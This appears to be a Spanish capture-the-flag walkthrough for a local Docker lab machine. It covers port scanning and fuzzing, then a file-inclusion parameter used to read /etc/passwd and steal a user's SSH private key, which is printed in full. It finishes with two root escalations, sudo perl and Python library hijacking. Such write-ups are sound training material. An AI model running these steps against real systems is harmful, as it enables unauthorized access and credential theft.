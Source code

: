 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh psycho.tar
```

![[Pasted image 20250214193646.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250214193659.png]]

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![[Pasted image 20250215104510.png]]

Nos metemos en la web:

![[Pasted image 20250215105315.png]]

Vemos que hay un código de error [!] ERROR [!].

Seguimos navegando:

![[Pasted image 20250215105255.png]]

![[Pasted image 20250215105332.png]]

Descargamos la imagen:

```Bash
curl --output background.jpg http://172.17.0.2/assets/background.jpg 
```

![[Pasted image 20250215105237.png]]

No hay nada.

Seguimos haciendo **Fuzzing** para ver si encontramos un parámetro:

```Bash
wfuzz -c --hc 404 --hw 169 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt http://172.17.0.2/index.php?FUZZ=/etc/passwd
```

![[Pasted image 20250215164634.png]]

Probamos si podemos ver los archivos:

```Bash
curl "http://172.17.0.2/index.php?secret=/etc/passwd" | grep sh$
```

![[Pasted image 20250215113654.png]]

Buscamos una clave id_rsa de los usuarios:

```Bash
curl "http://172.17.0.2/index.php?secret=/home/luisillo/.ssh/id_rsa" | sed '/<!DOCTYPE html>/,/<\/html>/d'
```

![[Pasted image 20250215115454.png]]

```Bash
curl "http://172.17.0.2/index.php?secret=/home/vaxei/.ssh/id_rsa" | sed '/<!DOCTYPE html>/,/<\/html>/d'
```

![[Pasted image 20250215115520.png]]

```Bash
nano id_rsa
```

![[Pasted image 20250215115545.png]]

```Bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvbN4ZOaACG0wA5LY+2RlPpTmBl0vBVufshHnzIzQIiBSgZUED5Dk
2LxNBdzStQBAx6ZMsD+jUCU02DUfOW0A7BQUrP/PqrZ+LaGgeBNcVZwyfaJlvHJy2MLVZ3
tmrnPURYCEcQ+4aGoGye4ozgao+FdJElH31t10VYaPX+bZX+bSxYrn6vQp2Djbl/moXtWF
ACgDeJGuYJIdYBGhh63+E+hcPmZgMvXDxH8o6vgCFirXInxs3O03H2kB1LwWVY9ZFdlEh8
t3QrmU6SZh/p3c2L1no+4eyvC2VCtuF23269ceSVCqkKzP9svKe7VCqH9fYRWr7sssuQqa
OZr8OVzpk7KE0A4ck4kAQLimmUzpOltDnP8Ay8lHAnRMzuXJJCtlaF5R58A2ngETkBjDMM
2fftTd/dPkOAIFe2p+lqrQlw9tFlPk7dPbmhVsM1CN+DkY5D5XDeUnzICxKHCsc+/f/cmA
UafMqBMHtB1lucsW/Tw2757qp49+XEmic3qBWes1AAAFiGAU0eRgFNHkAAAAB3NzaC1yc2
EAAAGBAL2zeGTmgAhtMAOS2PtkZT6U5gZdLwVbn7IR58yM0CIgUoGVBA+Q5Ni8TQXc0rUA
QMemTLA/o1AlNNg1HzltAOwUFKz/z6q2fi2hoHgTXFWcMn2iZbxyctjC1Wd7Zq5z1EWAhH
EPuGhqBsnuKM4GqPhXSRJR99bddFWGj1/m2V/m0sWK5+r0Kdg425f5qF7VhQAoA3iRrmCS
HWARoYet/hPoXD5mYDL1w8R/KOr4AhYq1yJ8bNztNx9pAdS8FlWPWRXZRIfLd0K5lOkmYf
6d3Ni9Z6PuHsrwtlQrbhdt9uvXHklQqpCsz/bLynu1Qqh/X2EVq+7LLLkKmjma/Dlc6ZOy
hNAOHJOJAEC4pplM6TpbQ5z/AMvJRwJ0TM7lySQrZWheUefANp4BE5AYwzDNn37U3f3T5D
gCBXtqfpaq0JcPbRZT5O3T25oVbDNQjfg5GOQ+Vw3lJ8yAsShwrHPv3/3JgFGnzKgTB7Qd
ZbnLFv08Nu+e6qePflxJonN6gVnrNQAAAAMBAAEAAAGADK57QsTf/priBf3NUJz+YbJ4NX
5e6YJIXjyb3OJK+wUNzvOEdnqZZIh4s7F2n+VY70qFlOtkLQmXtfPIgcEbjyyr0dbgw0j4
4sRhIwspoIrVG0NTKXJojWdqTG/aRkOgXKxsmNb+snLoFPFoEUHZDjpePFcgyjXlaYmZ0G
+bzNv0RNgg4eWZszE13jvb5B8XtDzN4pkGlGvK1+8bInlguLmktQKItXoVhhokGkp4b+fu
7YjDiaS4CyWsxX50wG/ZMgYBwFLRbCDUUdKZxsmCbreHxLKT/sae64E2ahuBSckYZlIzTd
2lp27EOOPvdPlt9gny83JuFHBLChMd4sHq/oU8vGAiGnIvOCWs4wMArbpJQ+EALJk3GYvh
oqWp3Q4N4F1tmwlrbqX2KP2T5yB+rLoBxfJwLELZlzd+O8mfP9Yknaw2vVYpUixUglNWHJ
ZnmN1uAScPAd1ZNvIkPm6IPcThj1hVCkFXgWjQn6NdJj+NGNWcBeUrxBkH0vToD7gfAAAA
wQCvSzmVYSxpX3b9SgH+sHH5YmOXR9GSc8hErWMDT9glzcaeEVB3O2iH/T+JrtUlm4PXiP
kwFc5ZHHZTw2dd0X4VpE02JsfkgwTEyqWRMcZHTK19Pry2zskVmu6F94sOcN8154LeQBNx
gT22Dr/KJA71HkOH7TyeGnlsmBtZoa3sqp3co9inkccnhm1KUeduL4RcSysDqXYbBUtNB6
G1l8HYysm8ISCsoR4KSgxmC5lqCMfBy7z/6nOX7sm5/kP+JMsAAADBAO8TiHrYTl/kGsPM
ITaekvQUJWCp+FCHK07jwzNp4buYAnO3iGvhVQpcS7UboD8/mve207e97ugK4Nqc68SzSu
bDgAnd4FF3NLoXP/qPZPaPS1FRl0pY0jHyB+U6RELgaI34i9AierMc+4M0coUMZvxqay3o
t8jRhz08jiwFifszwNN7taclmNEfkrKBY7nlbxFRd2XLjknZHFUOFzOFWdtXilQa+y6qJ6
lKtE9KWnQgIgZB9Wt+M3lsEVWEdQKN1wAAAMEAyyEsmbLUzkBLMlu6P4+6sUq8f68eP3Ad
bJltoqUjEYwe9KOf07G15W2nwbE/9WeaI1DcSDpZbuOwFBBYlmijeHVAQtJWJgZcpsOyy2
1+JS40QbCBg+3ZcD5NX75S43WvnF+t2tN0S6aWCEqCUPyb4SSQXKi4QBKOMN8eC5XWf/aQ
aNrKPo4BygXUcJCAHRZ77etVNQY9VqdwvI5s0nrTexbHM9Rz6O8T+7qWgsg2DEcTv+dBUo
1w8tlJUw1y+rXTAAAAEnZheGVpQDIzMWRlMDI2NmZmZA==
-----END OPENSSH PRIVATE KEY-----
```

![[Pasted image 20250215115631.png]]

```Bash
chmod 600 id_rsa
```

![[Pasted image 20250215115942.png]]

Nos conectamos con **SSH**:

```Bash
ssh -i id_rsa vaxei@172.17.0.2
```

![[Pasted image 20250215115959.png]]

Elevamos privilegios:

```Bash
sudo -l
```

![[Pasted image 20250215120026.png]]

```Bash
sudo -u luisillo perl -e 'exec "/bin/bash";'
```

![[Pasted image 20250215120333.png]]

Volvemos a elevar privilegios:

```Bash
sudo -l
```

![[Pasted image 20250215120401.png]]

```Bash
cd /opt
```

![[Pasted image 20250215120433.png]]

```Bash
ls -l
```

![[Pasted image 20250215120452.png]]

```Bash
cat paw.py
```

![[Pasted image 20250215120520.png]]

```Bash
sudo -u root /usr/bin/python3 /opt/paw.py
```

![[Pasted image 20250215121030.png]]

```Bash
nano subprocess.py
```

![[Pasted image 20250215161323.png]]

```Python
import os
os.system("bash -p")
```

![[Pasted image 20250215161358.png]]

```Bash
sudo -u root /usr/bin/python3 /opt/paw.py
```

![[Pasted image 20250215161443.png]]

```Bash
whoami
```

![[Pasted image 20250215161518.png]]

Otra forma de elevar:

```Bash
ls -ld
```

![[Pasted image 20250215170211.png]]

```Bash
rm paw.py
```

![[Pasted image 20250215170419.png]]

```Bash
nano paw.py
```

![[Pasted image 20250215170702.png]]

```Python
import os
os.system("bash -p")
```

![[Pasted image 20250215170718.png]]

```Bash
chmod +x paw.py
```

![[Pasted image 20250215171002.png]]

```Bash
sudo -u root /usr/bin/python3 /opt/paw.py
```

![[Pasted image 20250215171113.png]]

```Bash
whoami
```

![[Pasted image 20250215171145.png]]